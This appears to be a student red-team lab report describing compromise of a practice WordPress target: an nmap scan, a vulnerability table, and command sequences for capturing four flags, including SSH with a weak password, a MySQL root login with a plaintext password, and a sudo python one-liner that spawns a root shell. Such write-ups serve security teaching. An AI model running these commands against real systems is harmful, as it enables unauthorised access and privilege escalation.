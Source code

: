 Red Team: Summary of Operations

Table of Contents

Exposed Services
Critical Vulnerabilities
Exploitation


### Exposed Services
TODO: Fill out the information below.
Nmap scan results for each machine reveal the below services and OS details:
- nmap -sV 192.168.1.110  

![](Images/Target%201%20Nmap%20Scan.png)

This scan identifies the services below as potential points of entry:

### Target 1

- SSH
- HTTP
- RPCBIND
- NETBIOS-SSN

The following vulnerabilities were identified on each target:

### Target 1

| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |



![](Images/Word%20Press%20Scan.png)

### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

Target 1


flag1.txt: ![](Images/Flag1%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- grep -RE flag


flag2.txt: ![](Images/Flag2%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- ls
- cat flag2.txt

flag3.txt: ![](Images/Flag3.png)

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- mysql -u root -p
- R@v3enSecurity
- use wordpress;
- SELECT * FROM wp_posts;

flag4.txt: ![](Images/Flag4.png)

Exploit Used

- Privilege Escalation
- ssh steven@192.168.1.110
- sudo python -c 'import os;os.system("/bin/sh")'
- cd ../..
- cd root
- cat flag4
